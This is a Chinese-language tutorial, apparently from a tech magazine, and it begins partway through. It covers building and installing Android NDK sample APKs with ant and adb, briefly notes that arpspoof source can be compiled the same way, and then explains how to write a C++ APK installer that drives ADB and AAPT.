Available Android targets:

id: 1 or "android-8"
    Name: Android 2.2
    Type: Platform
    API level: 8
    Revision: 1
```

```text
Skins: HVGA, QVGA, WQVGA400, WQVGA432, WVGA800 (default), WVGA854
ABIs: armeabi

id: 2 or "android-10"
    Name: Android 2.3.3
    Type: Platform
    API level: 10
    Revision: 2
    Skins: HVGA, QVGA, WQVGA400, WQVGA432, WVGA800 (default), WVGA854
    ABIs: armeabi
```

如果没有的话，使用 SDK 的 AVD Manager 创建一个就可以了。而我使用的是 Android 2.3.3 的模拟器，所以我的编译命令是：

```text
I:\android\android-ndk-r7c\samples\native-activity>android update project -p . -t android-10 -s
Updated and renamed default.properties to project.properties
Updated local.properties
No project name specified, using Activity name 'NativeActivity'.
If you wish to change it, edit the first line of build.xml
Added file ...
I:\android\android-ndk-r7c\samples\native-activity\build.xml
Added file ...
I:\android\android-ndk-r7c\samples\native-activity\proguard.cfg
```

从上面可以看出，已经生成了 build.xml 文件了。执行 ant debug 命令，输出如下：

```text
I:\android\android-ndk-r7c\samples\hello-jni>ant debug
Buildfile: I:\android\android-ndk-r7c\samples\hello-jni\build.xml
-set-mode-check:
-set-debug-files:
-set-debug-mode:
-debug-obfuscation-check:
-setup:
    [echo] Gathering info for HelloJni...
    [setup] Android SDK Tools Revision 16
    [setup] Project Target: Android 2.2
    [setup] API level: 8
    [setup] Resolving library dependencies:
    [setup] No library dependencies.
-build-setup:
    [echo] Creating output directories if needed...
-pre-build:
-code-gen:
    [echo] Handling aidl files...
    [aidl] No AIDL files to compile.
    [echo] Handling RenderScript files...
    [renderscript] No RenderScript files to compile.
```

```
[echo] ...
[aapt] Handling Resources...
[aapt] Found Deleted Target File
[aapt] Generating resource IDs...
-pre-compile:
-compile:
[javac] Compiling 2 source files ...
-dex:
[dex] Converting compiled files ...
-crunch:
[crunch] Crunching PNG files ...
-package-resources:
[aapt] Creating full resource package...
-package:
[apkbuilder] ...
-do-debug:
[zipalign] Running zip align on final apk...
[echo] Debug Package:
...\HelloJni-debug.apk
[propertyfile] Updating property file...
BUILD SUCCESSFUL
Total time: 5 seconds
```

从上面可以看出，生成了 HelloJni-debug.apk，那么使用 adb 命令将其安装到当前的虚拟机上就可以了。

```
adb install bin/HelloJni-debug.apk
```

执行 `adb install bin/HelloJni-debug.apk` 命令，如果出现：`error: device not found`，说明你的 Android 模拟器尚未启动。

运行后，出现如下提示：

```
185 KB/s (85934 bytes in 0.453s)
pkg: /data/local/tmp/HelloJni-debug.apk
Success
```

说明该 apk 文件已经安装到 Android 模拟器上了，单击模拟器上的主页按钮，可以看到 HelloJni 程序已经生成了，如图 4 所示。


图 4

双击 HelloJni，进入程序，结果如图 5 所示。


图 5

现在对基本的移植就讲完了，下面针对 Linux 下的 arpspoof 代码进行移植编译，简单过程如下：

将 arp 源代码复制到 ndk 的 samples 目录，如 `C:\android\android-ndk\android-ndk-r8b\samples`。

目录中有个 jni 目录（如图 6 所示），从 cmd 下进入后执行 `ndk-build` 命令编译 C 代码，成功后回到 arp，执行 `ant debug` 命令就可以生成 apk 安装文件了。


图 6

前置知识：Android

关键词：ADB APK


## 自己动手打造 APK 安装器

图/文 非虫

为了方便安装 Android 软件，APK 安装器这类软件在网上出现了，用得最多的可能就属 91 手机助手自带的安装器了。今天我们使用 C++ 动手来编写一个这样的工具，在开始之前，有必要了解一下 APK 文件是以怎样的方式安装到用户手机中的。细分起来，Android 程序的安装有下面 4 种方式：

- 1. 系统程序安装：开机时安装，这类安装没有安装界面。
- 2. 通过 Market 安装：直接通过 Market 进行网络安装，这类安装没有安装界面。
- 3. ADB 工具安装：使用 ADB 工具进行安装，这类安装没有安装界面。
- 4. 手机自带安装：通过 SD 卡里的 APK 文件安装，这类安装有安装界面。

这 4 种方法，仔细想想，我们能下手的就是通过 ADB 工具来安装了。ADB（Android 调试桥）是 Android SDK 中为开发人员提供的一款强大的程序调试测试工具，集成了安装、卸载、调试、设备管理等多个功能，详细的 ADB 命令参数可以运行 ADB 得到。现在我们只关心需要用到的功能。

当 Android 手机设备使用 USB 调试模式连上电脑后，可以运行 `adb.exe devices` 来列出连接上的设备，如图 1 所示为开启一个 Android 模拟器后的截图。

```
D:\apktool>adb devices
List of devices attached
emulator-5554    device
```

图 1

在设备已连接的情况下，可以直接运行 `adb install <APK file>` 安装一个 APK 程序，或运行 `adb -s <serial number> install <APK file>` 来对指定的设备进行软件安装。后者是在连接多个设备的情况下才用的，这里为了简单就不考虑了，安装效果如图 2 所示。

```
D:\apktool>adb install moti5ce.apk
3074 KB/s (1431892 bytes in 0.561s)
Success
```

图 2

在经过一小段时间的等待后，出现 Success 提示，说明安装成功。不过在实际安装的过程中，有时候 ADB 返回后没有 Success 提示但程序也安装成功了，这让人很郁闷，因为这样就无法捕获 APK 是否已经正确安装了。

APK 程序的卸载也很简单，输入 `adb uninstall <package>` 就可以了，这里的 package 是软件的包名，每个 APK 程序安装后都有一个 APK 程序名，也有个包名，我们可以通过获取 APK 文件里面的信息来获取这个包名。卸载效果如图 3 所示。

```
D:\apktool>adb uninstall cn.mot5.motice
Success
```

图 3

如果输入的 package 在手机中不存在，会返回如图 4 所示的结果。

```
D:\apktool>adb uninstall cn.mot5.motice
Failure
```

图 4

Failure 来判断 APK 是否成功卸载。到这里，我们可以完成手机是否已经正常连接、安装、卸载等功能了。我们继续看看如何获取 APK 文件本身的信息，通常见到的 APK 安装器都可以显示 APK 文件的软件名、包名、文件大小、最低系统版本、权限等数据。这些数据的获取可以通过运行 AAPT.exe 来获取，AAPT 是 Android SDK 中提供的另外一个工具，它提供了对 APK 进行信息列举、文件添加、文件删除及资源打包到 APK 等功能。我们要用到的是它的 dump 命令，如图 5 所示。


图 5

我们只需运行 `aapt d badging <APK file>` 就可以获取一个 APK 的详细信息，如图 6 所示。


图 6

这里的“package:name=”是软件的包名，“versionName”是软件的版本，“application:label”是软件对外显示的名称，“icon=”是软件显示的图标，“uses-permission:”是软件用到的权限，这些权限有一部分是流氓及病毒软件需要用到的，在安装 APK 之前，我们有必要查看它所需的权限来对它的危险度进行粗略的判断，“sdkVersion: '7'”就是软件运行允许的 Android 最低版本，这里的数字 7 表示是 Android 2.1 系统，不同版本的 Android 都有相应数字版本号，截止到最新的 Android 4.0 版本，它们的对应关系如表 1 所示。

表 1

| Android 版本 | 数字版本 |
|---|---|
| Android 1.1 | 2 |
| Android 1.5 | 3 |
| Android 1.6 | 4 |
| Android 2.0 | 5 |
| Android 2.1 | 7 |
| Android 2.2 | 8 |
| Android 2.3 | 9 |
| Android 2.3.3 | 10 |
| Android 3.0 | 11 |
| Android 3.1 | 12 |
| Android 3.2 | 13 |
| Android 4.0 | 14 |

还有一种情况，当 APK 文件名无效或为非法的 APK 文件的时候，`aapt d badging <APK file>` 会返回错误信息，如图 7 所示。


图 7

这可能是 AAPT 处理上的一个 Bug，我们将文件名改成普通英文名后即可正常返回 APK 文件信息。所以，大家在安装 APK 程序的时候，请将 APK 文件名改成英文并且不要包含空格。

本来 AAPT 与 ADB 这两个工具在 Android 源码中都可以找到，但是提取所需相关功能出来还绝非易事，研究了一下果断放弃了。不过从技术研究的角度出发，我觉得大家还是可以深入研究的。整个 APK 安装器的思路就是通过 CreateProcess 调用 AAPT 与 ADB 进行相应的操作，而返回数据的获取用到了管道，使用 CreatePipe 创建读句柄，在父进程中通过 ReadFile 来读取数据。

介绍到这里，我们需要的信息都已经获取了，下面是编写代码了。APK 文件的操作我封装进了 CAPKHelper 类，类的声明如下：

```cpp
class CAPKHelper
{
protected:
    map<string,string> m_mapPermission;
    string m_adbPath;
    string m_aaptPath;
    string m_apkName;
    string m_softName;
    string m_PkgName;
    string m_Version;
    string m_OSVersion;
    string m_FileSize;
    string m_Permission;
    string m_iconFile;
public:
    CAPKHelper(const char *aaptPath, const char *adbPath, const char *apkFile);
    ~CAPKHelper(void);
};
```